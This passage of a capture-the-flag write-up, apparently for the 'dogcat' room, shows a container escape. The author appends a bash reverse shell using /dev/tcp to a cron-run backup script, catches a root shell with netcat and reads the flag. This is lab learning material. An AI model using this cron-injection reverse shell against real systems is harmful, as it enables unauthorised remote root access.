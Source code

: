 ```
root@07a3b42783b3:/# cd /opt/backups
cd /opt/backups
root@07a3b42783b3:/opt/backups# ls
ls
backup.sh
backup.tar
root@07a3b42783b3:/opt/backups# cat backup.sh
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
root@07a3b42783b3:/opt/backups# 

```
Script name is backup

I think this script may be in cronjob ,you can read about cronjob here [cronjob](https://en.wikipedia.org/wiki/Cron)

So I added this command in this script and listening with port 1234 

`echo 'bash -i >& /dev/tcp/10.8.69.162/1234 0>&1' >> backup.sh`

```
root@07a3b42783b3:/opt/backups# echo 'bash -i >& /dev/tcp/10.8.69.162/1234 0>&1' >> backup.sh
 >> backup.sh >& /dev/tcp/10.8.69.162/1234 0>&1' 
root@07a3b42783b3:/opt/backups# 

```

After about 3 second I got root shell as dogcat 

```
root@cyb3rhoL1c:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.69.162] from (UNKNOWN) [10.10.38.194] 37118
bash: cannot set terminal process group (5618): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# 

```

Run `ls` command and you will see flag 4

```
root@dogcat:~# ls           
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt           
cat flag4.txt
THM{esc4l4tions_on_************************52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~# 
```

You can run this command `crontab -l` to know what script is working as cronjob
